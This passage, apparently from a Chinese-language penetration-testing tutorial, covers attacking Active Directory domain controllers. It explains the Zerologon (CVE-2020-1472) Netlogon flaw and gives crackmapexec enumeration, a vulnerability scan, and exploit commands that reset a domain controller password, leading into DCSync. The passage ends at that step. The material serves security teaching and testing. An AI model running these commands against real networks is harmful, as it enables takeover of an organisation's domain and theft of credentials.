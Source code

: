 ```
3. 使用NTLM Info 获取域控的机器名

在无凭据的场景下我们通过端口扫描或者dns解析的方式得到域控的ip地址之后,
还需要收集域控的机器名等信息,此时可以使用 NTLM Info来进行收集.
```

```
crackmapexec smb 192.168.0.56
```

![image](../assets/post_img/Snipaste_2024-05-06_14-09-05.png)

```
在无凭据的场景下我们通过端口扫描或者dns解析的方式得到域控的地址,
此时可以考虑Zerologon,ms17_010等方法直接拿到域控权限.
```

### <span style="color:#F98B26">2.1.2 可直接进行利用的漏洞</span>
### <span style="color:#F98B26">2.1.2.1 Zerologon漏洞</span>

```
漏洞原理:

该漏洞发生在 Netlogon 远程协议(MS-NRPC)与域控制器建立安全通道的过程中.

首先将介绍Netlogon协议.

Netlogon远程协议是Windows域控制器上提供的一个 RPC接口.
它用于与用户和计算机身份验证相关的各种任务,最常用于通过NTLM协议帮助用户登录服务器.
其他功能包括对NTP相应的认证,特别是:允许计算机在域内更新其密码.

RPC接口可通过域控制器的 'portmapper'服务分配的动态端口或通过端口445上的SMB管道以TCP方式访问.

该漏洞存在于Netlogon 远程协议(MS-NRPC)的ComputeNetlogonCredential(该函数用于客户端和服务器使用密码原语生成凭据值)调用的过程中.
MS-NRPC通常用于更改Active Directory中的密码.
ComputeNetlogonCredential将8字节质询作为输入,并使用会话秘钥将质询转换为带有AES-CFB8的哈希以输出8字节结果.
加密需要使用初始向量(IV),但ComputeNetlogonCredential函数将IV设置为16个零字节的固定值.

这造成了一个缺陷,因为加密8字节的零可能会在256次尝试中产生1个概率为全零的密文.
此外,服务器接受未加密的netlogon会话,从而允许利用.
```
https://www.netwrix.com/zerologon_attack.html
```
漏洞利用:

https://github.com/dirkjanm/CVE-2020-1472

也可使用mimikatz进行利用

1. 首先进行扫描查看目标域控是否具有Zerologon漏洞

https://github.com/Amulab/advul

python3 main.py -ts -dc-ip 192.168.0.56 zerologon

[192.168.0.56] is vulnerable to zero logon!!!

2.重置密码

python3 cve-2020-1472-exploit.py dc 192.168.0.56

3.DCSync

```